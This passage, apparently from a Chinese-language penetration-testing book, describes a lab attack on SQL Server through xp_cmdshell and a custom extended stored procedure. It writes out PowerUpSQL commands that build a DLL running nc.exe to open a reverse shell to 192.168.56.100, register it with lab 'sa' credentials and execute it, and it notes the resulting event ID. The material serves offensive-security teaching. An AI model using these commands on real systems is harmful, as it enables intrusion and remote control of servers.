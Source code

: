 图 9.13 – 重新配置 xp_cmdshell 的失败尝试

此外，Metasploit 中有一个模块 (**exploit/windows/mssql/mssql_payload**) 可以通过 `xp_cmdshell` 执行任意有效载荷。

## 一个自定义扩展存储过程

简单来说，自定义扩展存储过程是 SQL Server 的一个 DLL 扩展。需要 Sysadmin 权限来注册每个存储过程到扩展中。DLL 的代码示例可以在 GitHub 上找到[19]。需要注意的是，DLL 和函数名称是区分大小写的，必须完全相同。

PowerUpSQL 有一个名为 `Create-SQLFileXpDll` 的函数，它将为我们创建一个 DLL。然后，我们将注册它，列出扩展存储过程以验证注册，最后执行我们的恶意扩展存储过程。以下命令复制了这个过程：

```
Create-SQLFileXpDll -OutFile C:\Users\Public\xp_shell.dll -Command "C:\Users\Public\nc.exe -e cmd 192.168.56.100 443" -ExportName xp_shell -Verbose
Get-SQLQuery -Instance BRAAVOS\SQLEXPRESS -Username sa -Password "sa_P@ssw0rd!Ess0s" -Query "sp_addextendedproc 'xp_shell', 'C:\Users\Public\xp_shell.dll'"
Get-SQLStoredProcedureXP -Instance BRAAVOS\SQLEXPRESS -Username sa -Password "sa_P@ssw0rd!Ess0s"
Get-SQLQuery -Instance BRAAVOS\SQLEXPRESS -Username sa -Password "sa_P@ssw0rd!Ess0s" -Query "EXEC xp_shell"
```

不幸的是，自动创建的 PowerUpSQL DLL 在实验室中的目标机器上并未执行，即使通过 `rundll32` 命令也是如此。令人惊讶的是，同样的 DLL 在 Windows 10 机器上运行良好，如下所示：

![图 9.14 – DLL 生成了一个反向 shell](img/B18964_09_14.jpg)

图 9.14 – DLL 生成了一个反向 shell

成功加载的 DLL 生成事件 ID `33090`，如下截图所示：

![图 9.15 – DLL 成功加载到内存中](img/B18964_09_15.jpg)

